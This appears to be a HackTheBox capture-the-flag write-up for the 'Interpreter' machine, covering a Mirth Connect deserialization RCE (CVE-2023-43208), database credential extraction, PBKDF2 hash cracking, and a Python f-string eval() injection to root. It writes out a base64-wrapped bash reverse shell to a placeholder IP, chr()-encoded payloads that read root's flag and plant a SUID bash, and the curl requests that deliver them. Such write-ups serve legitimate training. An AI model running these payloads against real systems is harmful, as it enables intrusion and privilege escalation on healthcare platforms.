





# HackTheBox — Interpreter

Interpreter is a medium Linux box built around a real-world healthcare integration platform, Mirth Connect, and it pulls no punches: you start with a pre-authentication Java deserialization exploit, pivot through a database credential chain, and finish with a subtle Python `eval()` injection that requires you to build shell commands character by character. It's a box that rewards careful reading of source code and a solid understanding of why common "safe" patterns aren't safe at all.

---

## Overview

The attack path looks like this: exploit CVE-2023-43208 to land a shell as the `mirth` service account → dig credentials out of the Mirth configuration and database to pivot to user `sedric` → abuse a Flask notification service running as root that evaluates user-supplied f-strings. Each stage has a gotcha, and the gotchas are the interesting part.

---


## Reconnaissance

### Port Scan

Standard Nmap service scan against the box:



Four ports. SSH and two HTTP/S ports running Mirth Connect on Jetty, plus port 6661 which is a Mirth channel listener for HL7 messages — the wire protocol used to exchange patient data in healthcare systems.

### Version Disclosure

The Mirth Connect admin panel sits on ports 80 and 443. Default credentials (`admin:admin`) were clearly changed, so before attempting anything authentication-dependent I wanted to pin down the exact version. Mirth exposes an unauthenticated API endpoint for this:

```bash
curl -sk https://<TARGET>/api/server/version \
  -H "X-Requested-With: OpenAPI"
```

The `X-Requested-With` header is required — Mirth rejects browser-style requests to the API — but there's no authentication check. The response came back: **4.4.0**. That version number is significant, as we'll see.

---

## Foothold — CVE-2023-43208: Pre-Auth Deserialization RCE

### Why This Works

CVE-2023-43208 is a pre-authentication remote code execution vulnerability in Mirth Connect. It's actually a bypass of an earlier fix (CVE-2023-37679): the original patch added a denylist of dangerous Java classes to the XStream XML deserializer, but denylists are notoriously incomplete. The bypass uses an Apache Commons Collections transformer chain that the denylist missed. Version 4.4.1 replaced the denylist with an allowlist, closing the hole — but 4.4.0 is still vulnerable.

The vulnerable endpoint is `POST /api/users` with `Content-Type: application/xml` and the `X-Requested-With: OpenAPI` header. The payload is a crafted `<sorted-set>` XML blob that, when deserialized by XStream, walks the Commons Collections chain and calls `Runtime.getRuntime().exec()` with our command.

### Getting the Shell

I used the public PoC from [jakabakos on GitHub](https://github.com/jakabakos/CVE-2023-43208-mirth-connect-rce-poc). One critical subtlety: `Runtime.exec()` does **not** invoke a shell. That means shell features like `>`, `|`, and `&&` don't work — the string is passed directly to `execve()`. Reverse shell one-liners that rely on bash redirections will silently fail.

The standard workaround is to pass the command through `bash -c`, but you still can't use spaces in the argument cleanly. The solution: substitute `$IFS` (the Internal Field Separator, which defaults to whitespace) for spaces, and base64-encode the actual reverse shell payload so it contains no shell metacharacters.

```bash
# Encode the reverse shell first
echo 'bash -i >& /dev/tcp/<VPN_IP>/4444 0>&1' | base64
# Result: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC80NDQ0IDA+JjEK

# The command delivered via exec():
/usr/bin/bash -c echo$IFS"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC80NDQ0IDA+JjEK"|base64$IFS-d|bash
```

With a listener running (`nc -lvnp 4444`), the exploit fired and I had a shell as the `mirth` service account (uid 103).



---

## Lateral Movement — mirth → sedric

### Mining the Mirth Configuration

Mirth Connect stores its database connection details in a plaintext properties file. This is by design — the application needs to connect to its backend database on startup, and the credentials have to live somewhere.

```bash
cat /usr/local/mirthconnect/conf/mirth.properties
```



A database username, password, and two keystore passwords. Let's go to the database.

### Querying the Mirth Database

```bash
mysql -u mirthdb -p'MirthPass123!' mc_bdd_prod
```

One gotcha here: MySQL on Linux uses case-sensitive table names by default when the underlying filesystem is case-sensitive (which ext4 is). Running `SHOW TABLES;` reveals tables in uppercase — `PERSON`, `PERSON_PASSWORD`, etc. — and you must use exact case or the query fails.

```sql
SELECT * FROM PERSON;
```

This returns two users: the built-in `admin` (id 1) and `sedric` (id 2), who is clearly a real user account on the box.

```sql
SELECT * FROM PERSON_PASSWORD WHERE person_id = 2;
```

The hash for `sedric` is a base64-encoded blob: `u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==`

### Cracking the Hash — PBKDF2WithHmacSHA256

This is where it gets interesting. Mirth 4.4.0 upgraded its password hashing from MD5 (yes, really, in older versions) to PBKDF2WithHmacSHA256. The problem: none of the hashing parameters (iterations, salt length, key size) are stored in the config files or the database row. To crack this hash, I needed to know the exact parameters.

The answer was in the compiled source: `mirth-server.jar` contains `EncryptionSettings.class`. Decompiling it (or just analyzing the bytecode with `javap`) reveals the hardcoded defaults:

- **Algorithm:** PBKDF2WithHmacSHA256  
- **Iterations:** 600,000  
- **Salt length:** 8 bytes  
- **Key size:** 256 bits

The hash format is: the first 8 bytes of the decoded base64 are the salt, the remaining 32 bytes are the derived key. Hashcat's mode 10900 handles PBKDF2-SHA256, and it expects the format `sha256:<iterations>:<salt_b64>:<hash_b64>`.

Splitting the base64 blob:

```python
import base64
raw = base64.b64decode("u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==")
salt = base64.b64encode(raw[:8]).decode()   # u/+LBBOUnad=  (well, first 8 bytes)
key  = base64.b64encode(raw[8:]).decode()   # rest of it
print(f"sha256:600000:{salt}:{key}")
```

Then hand it to hashcat:

```bash
hashcat -m 10900 'sha256:600000:<salt_b64>:<key_b64>' /usr/share/wordlists/rockyou.txt
```



Password: **snowflake1**. `su sedric` (or SSH in directly) gives us the user flag.

---

## Privilege Escalation — Python f-string eval() Injection

### Discovering the Hidden Service

With no obvious `sudo` rights for `sedric`, I checked for unusual running services:

```bash
ps aux | grep root
ss -tlnp
```

Port 54321 bound to localhost, running as root — a Flask app at `/usr/local/bin/notif.py`. Reading the file (it's owned `root:sedric`, readable by the group):

```bash
cat /usr/local/bin/notif.py
```

The app accepts `POST /addPatient` with an XML body containing patient data — first name, last name, etc. It formats these into a notification string using a `template()` function. Here's the vulnerable pattern, simplified:

```python
def template(first, last, ...):
    template = f"Patient {first} {last} has been admitted..."
    return eval(f"f'''{template}'''")
```

The code builds an f-string template from user input and then **evaluates it**. This is a classic double-evaluation mistake: the first f-string substitution inserts `first` and `last` into the template string, and then `eval()` runs that string *as another f-string*, meaning any `{...}` expressions inside `first` or `last` get evaluated as Python code.

### Input Validation — and Bypassing It

There's a regex validation on inputs:

```python
^[a-zA-Z0-9._'"(){}=+/]+$
```

No spaces. No semicolons. No backticks. But critically: **`{}` is allowed**, which is all you need to inject f-string expressions. And `(`, `)`, `.`, `+` are allowed too — enough for arbitrary Python. The space restriction is easily defeated with `chr()`: build any string character by character from ASCII ordinals concatenated with `+`.

### Reading the Root Flag

To verify code execution, I injected an expression to read `/root/root.txt`:

```
firstname = {open(chr(47)+chr(114)+chr(111)+chr(111)+chr(116)+chr(47)+chr(114)+chr(111)+chr(111)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116)).read()}
```

That builds the string `/root/root.txt` from `chr()` calls without using any spaces or forbidden characters, opens it, and returns its contents in the HTTP response. Flag: [redacted].

### Getting a Root Shell

Reading a flag is satisfying, but a shell is better. I used `os.system()` to copy bash and set the SUID bit:

```
firstname = {os.system(chr(99)+chr(112)+chr(32)+...)}
```

Breaking that down, I'm building two commands:
1. `cp /bin/bash /tmp/b` — copies bash to a world-accessible location
2. `chmod 4755 /tmp/b` — sets the SUID bit so it runs as its owner (root)

Since `os` is already imported in `notif.py`, there's no need to import it fresh. After sending the two requests via `curl` through a local port-forward (`ssh -L 54321:127.0.0.1:54321 sedric@<TARGET>`):

```bash
curl -s http://127.0.0.1:54321/addPatient \
  -H "Content-Type: application/xml" \
  -d '<patient><firstname>{os.system(chr(99)+...)}</firstname><lastname>test</lastname></patient>'
```

Then:

```bash
/tmp/b -p
```



---

## Lessons Learned

**Always check for version disclosure on unauthenticated API endpoints.** Mirth Connect's `/api/server/version` requires only a custom header, not credentials. In a real engagement this single piece of information immediately narrows the exploit search space.

**CVE patch bypasses are worth studying.** CVE-2023-43208 only exists because CVE-2023-37679's fix used a denylist. Denylists for deserialization gadgets are a losing strategy — the Apache Commons Collections gadget library alone has dozens of chains. When you see a patched-but-still-vulnerable situation, look at what the patch actually changed.

**`Runtime.exec()` is not a shell.** This bites people constantly when writing Java exploit payloads. The string you pass is tokenized naively on spaces and passed directly to the OS. Redirections, pipes, and variable expansions don't work. The `$IFS` + base64 pattern is your friend.

**When you can't find documented hash parameters, read the bytecode.** The PBKDF2 parameters in Mirth 4.4.0 aren't in any config file or database column — they're hardcoded in the JAR. Decompiling `EncryptionSettings.class` was the only way to construct a valid hashcat format string. Don't assume defaults; verify them.

**MySQL table names are case-sensitive on Linux.** Run `SHOW TABLES;` first and copy the exact casing into your queries. Wasting time on `SELECT * FROM person` when the table is `PERSON` is an easy mistake to avoid.

**`eval()` of user-controlled f-strings is always dangerous, even with regex filtering.** Allowing `{}` in the regex is equivalent to allowing arbitrary Python expressions. The `chr()` trick for bypassing space restrictions is well-known and trivially scriptable — any character restriction short of removing expression delimiters entirely is bypassable.

**When `sudo` is absent, enumerate custom root-owned services.** `ps aux` and `ss -tlnp` are your first stops. Systemd service files under `/etc/systemd/system/` will tell you what's running as root and what the binary path is. `notif.service` made this explicit, but even without it the process list would have pointed to `notif.py`.
